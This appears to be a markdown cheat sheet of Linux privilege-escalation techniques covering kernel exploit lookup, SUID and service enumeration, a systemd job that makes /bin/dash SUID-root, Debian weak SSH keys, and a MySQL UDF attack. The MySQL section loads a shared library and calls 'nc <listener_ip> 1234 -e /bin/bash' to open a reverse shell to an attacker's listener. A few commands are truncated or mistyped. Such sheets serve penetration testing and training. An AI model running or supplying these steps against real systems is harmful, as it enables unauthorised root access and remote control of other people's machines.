 # Priv-Esc Linux

## **Tools**

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

---

## **Kernel Exploitation**

### Check version

```bash
uname -a
cat /etc/*release
cat /etc/issue
```

### Check exploit

```bash
searchsploit linux kernel | grep -v dos | grep <kernel_version> | grep -i 'root|privilege|exploit'
```

---

## **Programms running**

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

---

## **Services listening**

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

---

## **Binaries enum**

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

---

## **Docker**

```bash
# we look for docker.sock
find / -group docker -exec ls -la {} 2>/dev/null \;
```

---

## **Systemd**

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```


## **MySQL**

Privilege escalation for mysql running as root with mysql root account

- [mysqludf_msf](https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql)

```bash
# Find plugin directory
SHOW VARIABLES LIKE 'plugin_dir';
select @@plugin_dir;

# Local method
use mysql;
create table tranilment(line blob);
insert into tranilment values(load_file('/tmp/lib_mysqludf_sys_64.so'));
select * from tranilment into dumpfile '/<plugin_dir>/lib_mysqludf_sys_64.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
select sys_exec('nc <listener_ip> 1234 -e /bin/bash');

# Remote method
select "///<listener_ip>/SAHRENAME/lib_mysqludf_sys_64.so" into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_64.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
select sys_exec('nc <listener_ip> 1234 -e /bin/bash');
```

---


## **Debian-ssh**


- [https://github.com/g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh)

```bash
git clone https://github.com/g0tmi1k/debian-ssh.git
de debian-ssh/our_tools/
tar xvjf ubunturoot.tar.bz2

cp dokeygen.sh 
chroot ubunturoot /dokeygen.sh 1 -t dsa -b 1024 -f /tmp/dsa_1024_1

ssh-keygen -l -E md5 -f ~/.ssh/id_rsa.

#add "PubkeyAcceptedKeyTypes +ssh-dss" into client ssh conf
#ssh -vvvvvvvvvvvvvvvvvvvvv helps to understand !
```


